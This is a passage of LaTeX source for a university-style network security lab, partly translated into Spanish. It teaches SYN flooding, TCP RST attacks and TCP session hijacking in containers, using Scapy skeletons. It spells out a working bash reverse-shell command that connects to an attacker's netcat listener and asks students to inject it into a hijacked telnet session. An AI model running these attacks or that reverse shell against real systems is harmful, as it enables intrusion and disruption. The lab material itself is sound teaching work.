run the \texttt{"ip tcp\_metrics flush"} command on
the server. 

\begin{lstlisting}
# ip tcp_metrics show
10.9.0.6 age 140.552sec cwnd 10 rtt 79us rttvar 40us source 10.9.0.5

# ip tcp_metrics flush
\end{lstlisting}


\paragraph{Nota B: Paquetes RST.} 
If you are doing this task using two VMs, i.e., launching the attack from one VM
against another VM, instead of attacking a container, from the Wireshark,
you will notice many RST packets (reset). Initially, we thought that 
the packets were generated from the recipient of the SYN+ACK packet, 
but it turns out they are generated by the 
NAT server in our setup. 

Any traffic going out of the VM in our lab setup will go through the NAT server
provided by VirtualBox. For TCP, NAT creates address translation 
entries based on the SYN packet. 
In our attack, the SYN packets generated 
by the attacker did not go through the NAT (both attacker and victims are behind the 
NAT), so no NAT entry was created. When the victim sends SYN+ACK packet back to the
source IP (which is randomly generated by the attacker), this packet will 
go out through the NAT, but because there is no prior NAT entry
for this TCP connection, NAT does not know what to do,
so it sends a TCP RST packet back to the victim. 

RST packets cause the victim to remove the data from the half-open connection
queue. Therefore, while we are trying fill up this queue with the attack, 
VirtualBox helps the victim to remove our records from the queue. 
It becomes a competition between our code and the VirtualBox. 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.2: Lanzando el ataque usando C} 

Exceptuando el problema de la cache TCP, el resto de los inconvenientes mencionados en la Tarea 1.1 pueden ser resuletos si podemos enviar paquetes SYN spoofeados de forma rápida. Podemos lograrlo usando C. Hemos provisto un programa hecho en C llamado \texttt{synflood.c} este archivo se encuentra dentro del directorio del laboratorioo. Por favor compile el programa en la Máquina Virtual y lance el ataque en la máquina vícttima.

\begin{lstlisting}
// Compile the code on the host VM
$ gcc -o synflood synflood.c

// Launch the attack from the attacker container
# synflood 10.9.0.5 23
\end{lstlisting}

Antes de lanzar el ataque, por favor restaure el tamaño de la cola a su tamaño original. Por favor compare los resultados de este ataque con los que ha hecho usando el programa de Python y explique las razones detrás de las diferencias.  

 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.3: Activar la Contramedida de SYN Cookie}

Por favor active la protección SYN cookie, corra sus ataques nuevamente y compare los resultados. 



% *******************************************
% SECTION
% *******************************************
\section {Tarea 2: Ataque TCP RST en Conexiones \texttt{telnet}}

The TCP RST Attack can terminate an established TCP connection between
two victims. For example, if there is an established \telnet connection (TCP)
between two users A and B, attackers can spoof a RST packet from A to B,
breaking this existing connection. To succeed in this attack, attackers
need to correctly construct the TCP RST packet. 

In this task, you need to launch a TCP RST attack from the VM 
to break an existing \telnet connection between A and B, which are 
containers.  To simplify the lab,
we assume that the attacker and the victim are on the same LAN,
i.e., the attacker can observe the TCP traffic between
A and B.


\paragraph{Launching the attack manually.} 
Please use Scapy to conduct the TCP RST attack. 
A skeleton code is provided in the following. You need to replace each
\texttt{@@@@} with an actual value (you can get them using Wireshark):  


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}

\paragraph{Optional: Launching the attack automatically.} 
Students are encouraged to write a program to launch the 
attack automatically using the sniffing-and-spoofing technique. 
Unlike the manual approach, we get all the parameters
from sniffed packets, so the entire attack is automated.  
Please make sure that when you 
use Scapy's \texttt{sniff} function, don't forget to 
set the \texttt{iface} argument.  

 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{comment}
% We comment out  this task, because it does not work any more.
% It seems that the video streaming client will reconnect to the server
% if the connection is broken. We haven't figured out a solution yet.
%
% My fugure plan:
%    I would like to use container to host our own streeming service.
%    Then we can launch the RST attack on the server. 
%    

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 3: TCP RST Attacks on Video Streaming Applications}

Let us make the TCP RST attack more interesting by experimenting it on 
the applications that are widely used in nowadays.
We choose the video streaming application in 
this task. For this task, you can choose a video streaming web site that you 
are familiar with (we will not name any specific web site here).  Most of
video sharing websites establish a TCP connection with the client for 
streaming the video content. The attacker's goal is to disrupt the TCP session 
established between the victim and video streaming machine. To 
simplify the lab, we assume that the attacker and the victim are on the 
same LAN. In the following, we describe the common interaction between
a user (the victim) and some video-streaming web site:

\begin{itemize}
\item The victim browses for a video content in the video-streaming web 
site, and selects one of the videos for streaming. 

\item Normally video contents are hosted by a different machine,
where all the video contents are located. After the victim selects 
a video, a TCP session will be established between the victim 
machine and the content server for the video streaming.
The victim can then view the video he/she has selected.
\end{itemize}

Your task is to disrupt the video streaming by breaking the 
TCP connection between the victim and the content server.
You can let the victim user browse the video-streaming 
site from another (virtual) machine or from the same (virtual) machine
as the attacker. Please be noted that, to avoid liability issues,
any attacking packets should be targeted 
at the victim machine (which is the machine run by yourself), 
not at the content server machine (which does not belong to you).

\end{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

            


% *******************************************
% SECTION
% *******************************************
\section{Tarea 3: TCP Session Hijacking}



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\tcpFigs/TCP_Session_Hijacking.pdf}
  \end{center}
  \caption{TCP Session Hijacking Attack}
  \label{tcp:fig:hijacking}
\end{figure}
 
   
The objective of the TCP Session Hijacking attack is to hijack an 
existing TCP connection (session) between two victims by injecting malicious contents
into this session. If this connection is a \telnet session, attackers
can inject malicious commands (e.g. deleting an important file) 
into this session, causing the victims 
to execute the malicious commands. 
Figure~\ref{tcp:fig:hijacking} depicts how the attack works.
In this task, you need to demonstrate how you can hijack a 
\texttt{telnet} session between two computers. Your goal is to get the
\texttt{telnet} server to run a malicious command from you.
For the simplicity of the task, we assume that 
the attacker and the victim are on the same LAN.


\paragraph{Launching the attack manually.}
Please use Scapy to conduct the TCP Session Hijacking attack.
A skeleton code is provided in the following. You need to replace each
\texttt{@@@@} with an actual value; you can use Wireshark to figure out what value you 
should put into each field of the spoofed TCP packets. 


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
data = "@@@@"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}


\paragraph{Optional: Launching the attack automatically.}
Students are encouraged to write a program to launch the
attack automatically using the sniffing-and-spoofing technique.
Unlike the manual approach, we get all the parameters
from sniffed packets, so the entire attack is automated.
Please make sure that when you
use Scapy's \texttt{sniff} function, don't forget to
set the \texttt{iface} argument.





% *******************************************
% SECTION
% *******************************************
\section{Tarea 4: Crear una Shell Reversa usando TCP Session Hijacking}

When attackers are able to inject a command to the victim's machine using
TCP session hijacking, they are not interested in running one simple
command on the victim machine; they are interested in running many
commands. Obviously, running these commands all through TCP session
hijacking is inconvenient. What attackers want to achieve is to use the
attack to set up a back door, so they can use this
back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the
victim machine to give the attack the shell access to the victim machine.
Reverse shell is a shell process running on a remote machine, connecting
back to the attacker's machine. This gives an attacker a convenient way to
access a remote machine once it has been compromised. 


In the following, we will show how we can set up a reverse shell if we can
directly run a command on the victim machine (i.e. the server machine). 
In the TCP session hijacking attack, attackers cannot directly run a
command on the victim machine, so their jobs is to run a reverse-shell
command through the session hijacking attack. 
In this task, students need to demonstrate that they can achieve this goal.


To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In the following demo, we show two windows, each one is from a 
different machine. The top window is the attack machine \texttt{10.9.0.1},  
which runs \texttt{netcat}~(\texttt{nc} for short), listening on port \texttt{9090}. 
The bottom window is the victim machine \texttt{10.9.0.5}, and 
we type the reverse shell command.
As soon as the reverse shell gets executed, the top window indicates 
that we get a shell. This is a reverse shell, i.e., it runs on \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

In the demo shown above, when the \texttt{bash}
shell command is executed on \texttt{10.9.0.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.9.0.1}. This is confirmed via the \texttt{"Connection received on 10.9.0.5"}
message displayed by \texttt{netcat}.


The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. 




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana



\end{document}
